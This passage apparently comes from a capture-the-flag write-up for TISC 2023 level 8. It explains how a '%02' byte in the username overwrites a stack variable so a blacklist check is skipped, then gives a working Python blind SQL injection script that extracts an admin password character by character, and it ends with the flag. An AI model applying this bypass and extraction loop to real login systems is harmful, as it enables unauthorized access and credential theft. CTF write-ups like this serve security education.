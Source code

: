 The vulnerability is now clear: if we can overwrite the stack variable's value to become 2 instead of 1, we will call `load_query` directly instead of `is_blacklisted`, effectively skipping the blacklist check entirely. The URL-decoding support means that we can simply include `%02` at the right location within our username input to accomplish this.

I verified this by sending a test request that _should_ fail (the `)` character is blacklisted):

```sh
┌──(kali㉿kali)-[~/…/ctf/2023/tisc2023/level8]
└─$ aws lambda invoke --function-name craft_query --payload '{"username":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)AAAAAAAAAA%02","password":"admin"}' lambda_out
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}                                  
┌──(kali㉿kali)-[~/…/ctf/2023/tisc2023/level8]
└─$ cat lambda_out              
"SELECT * from Users WHERE username=\"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)AAAAAAAAAA\u0002\" AND password=\"admin\""
```

Cool! Now that we know how to bypass the blacklist, we can _actually_ perform the Blind SQL Injection (TM).

```python
import requests

ENDPOINT = "http://chals.tisc23.ctf.sg:28471/api/login"
payload = {"username": "A", "password": "B"}

# I have already leaked that the password length is 19

def query(s):
    payload["username"] = s.ljust(68, " ") + "%02"
    r = requests.post(ENDPOINT, payload).content
    if b"Uh oh" in r:
        return None
    elif b"Invalid" in r:
        return False
    return True

r = []
for i in range(19):
    print(bytes(r))
    # I could binary search but I'm too lazy
    for j in range(32, 127):
        if query(f"admin\" AND ORD(SUBSTR(password,{i+1},1))={j}#"):
            r += [j]
            break
print(bytes(r))
```

**Flag:** `TISC{a1PhAb3t_0N1Y}`

***
